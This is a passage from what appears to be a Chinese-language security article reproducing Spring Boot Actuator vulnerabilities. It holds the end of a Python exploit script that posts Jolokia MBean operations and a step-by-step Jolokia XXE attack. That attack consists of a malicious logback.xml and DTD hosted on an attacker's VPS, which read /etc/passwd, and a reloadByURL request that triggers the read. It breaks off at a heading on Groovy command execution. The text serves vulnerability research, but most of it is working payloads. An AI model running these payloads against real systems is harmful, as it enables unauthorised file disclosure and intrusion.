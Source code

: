 ```
print('%s MBean %s: %s ...'%(i['type'].title(), i['mbean'], i.get('operation', i.get('attribute'))))
    r = requests.post(url, json=i)
    r.json()
print(r.status_code)
```  
  
命令：python3 exp.py  
# jolokia XXE 任意文件读取  
  
源码复现：git clone [https://github.com/veracode-research/actuator- testbed.git](https://github.com/veracode-research/actuator-testbed.git)  
影响版本：Spring Boot 2.x  
漏洞原因：该框架使用了特定的方式来进行配置，从而使开发人员不再需要定义样板化的配置。对于此漏洞，Spring boot  
 会把 /! 解析成 /  
，导致可以部署xml  
脚本进行远程加载解析  
漏洞条件：  
访问/jolokia/list  
接口，在页面搜索logback  
，查看是否存在logback  
 库提供的reloadByURL  
方法，根据响应页面存在logback  
 库提供的reloadByURL  
方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlRgW0ib5VwXFkzGFljVxxmT4JA3tibKAAS9wYY6tvJon3ZegKrrM3dlzg/640?wx_fmt=png&from=appmsg "null")  
  
漏洞复现：  
  
1、 在vps上创建logback.xml，内容如下  
```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps:4444/xxe.dtd">%remote;%int;]>
<a>&trick;</a>
```  
  
2、 创建一个外部实体文件xxe.dtd  
```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```  
  
3、vps开启监听端口4444进行请求远程文件logback.xml，加载dtd文件触发文件读取漏洞，poc如下  
```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPSIP地址!/logback.xml
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1Hlw1uhw5QVu6zXIalKVP4xQRnxib35Ydr1m0s2gY4iclJxtQxshHXNUnkA/640?wx_fmt=png&from=appmsg "null")  
# SpringBoot Actuator之restart logging.config grovvy命令执行  
  